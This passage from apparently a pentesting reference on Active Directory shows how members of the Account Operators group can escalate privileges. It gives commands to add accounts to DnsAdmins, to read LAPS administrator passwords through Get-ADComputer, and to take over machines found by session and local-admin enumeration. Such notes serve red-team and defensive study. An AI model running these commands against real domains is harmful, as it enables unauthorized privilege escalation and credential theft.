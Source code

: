       ActiveDirectoryRights : GenericAll
      InheritanceType       : None
      ObjectType            : 00000000-0000-0000-0000-000000000000
      InheritedObjectType   : 00000000-0000-0000-0000-000000000000
      ObjectFlags           : None
      AccessControlType     : Allow
      IdentityReference     : BUILTIN\Account Operators
      IsInherited           : False
      InheritanceFlags      : None
      PropagationFlags      : None

    net localgroup "DnsAdmins" "<DOMAIN>\<USERNAME>" /add /domain
    dsmod.exe group "CN=DnsAdmins,CN=Users,<DOMAIN_ROOT_OBJECT>" -addmbr "<USER_DISTINGUISHED_NAME"

    Add-ADGroupMember -Identity "DnsAdmins" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
    Add-ADGroupMember -Server <DC_HOSTNAME | DC_IP> -Domain <DOMAIN> -Credential <PSCredentials> -Identity "DnsAdmins" -Members [<SamAccountName | DistinguishedName | SID | GUID>, ...]
    ```

  - Take control of non-protected machines where privileged users have opened a
    session. `PowerView`'s cmdlets and `SharpHound` both wrap around the
    Windows `Win32API`'s `NetSessionEnum` API and can be used to enumerate
    sessions on remote systems. Refer to the `[ActiveDirectory] Credentials
    theft shuffling - Session hunting` and `[ActiveDirectory] AD scanners`
    notes for more information.

    Multiples techniques may be leveraged to take control of the non protected
    machines, including:

    - Reading the `Local Administrator Password Solution (LAPS)` password of
    the non-protected machines if the solution is deployed on the domain, as
    the `Account Operators` group can by default read all attributes of
    the machine accounts (including the `ms-Mcs-AdmPwd` attribute).

      ```
      Get-ADComputer -Identity <SamAccountName | DistinguishedName | SID | GUID> -Properties * | Ft Name,ms-Mcs-AdmPwdExpirationTime,ms-Mcs-AdmPwd
      Get-ADComputer -Filter {ms-mcs-admpwdexpirationtime -like "*"} -Properties * | Ft Name,ms-Mcs-AdmPwdExpirationTime,ms-Mcs-AdmPwd
      ```

    - Add member(s) to non-protected domain group, or change password of
    non-protected domain users, that are members of the local `Administrators`
    group of the targeted machine. `PowerView`'s cmdlets, `PingCastle`'s
    `localadmin` scanner and `SharpHound`'s `LocalAdmin` collection method can
    all be used to enumerate local groups memberships through `RPC` calls to
    the `SAMR` interface of the remote system (either through direct `RPC`
    calls or through the `NetLocalGroupGetMembers` Windows API). Refer to the
    `[ActiveDirectory] Credentials theft shuffling - Local group enumeration`
    for more information.

### Backup Operators
